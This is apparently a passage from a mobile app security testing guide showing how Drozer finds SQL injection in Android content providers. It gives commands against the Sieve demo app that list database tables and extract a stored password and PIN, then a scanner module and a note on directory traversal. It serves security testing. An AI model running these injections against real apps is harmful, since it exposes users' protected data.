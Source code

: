 **SQL Injection in Content Providers**<br>
The Android platform promotes SQLite databases for storing user data. Because these databases are based on SQL, they may be vulnerable to SQL injection. <br>
You can use the Drozer module app.provider.query to test for SQL injection by manipulating the projection and selection fields that are passed to the content provider:

```default
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"
unrecognized token: "' FROM Passwords" (code 1): , while compiling: SELECT ' FROM Passwords

dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"
unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
```

If an application is vulnerable to SQL Injection, it will return a verbose error message. SQL Injection on Android may be used to modify or query data from the vulnerable content provider. In the following example, the Drozer module app.provider.query is used to list all the database tables:

```default
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "*
FROM SQLITE_MASTER WHERE type='table';--"
| type  | name             | tbl_name         | rootpage | sql              |
| table | android_metadata | android_metadata | 3        | CREATE TABLE ... |
| table | Passwords        | Passwords        | 4        | CREATE TABLE ... |
| table | Key              | Key              | 5        | CREATE TABLE ... |
```

SQL Injection may also be used to retrieve data from otherwise protected tables:

```default
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
| Password | pin |
| thisismypassword | 9876 |
```

You can automate these steps with the scanner.provider.injection module, which automatically finds vulnerable content providers within an app:

```default
dz> run scanner.provider.injection -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Injection in Projection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
Injection in Selection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

**File System Based Content Providers**<br>
Content providers can provide access to the underlying filesystem. This allows apps to share files (the Android sandbox normally prevents this).You can use the Drozer modules app.provider.read and app.provider.download to read and download files, respectively, from exported file-based content providers.These content providers are susceptible to directory traversal, which allows otherwise protected files in the target application's sandbox to be read.

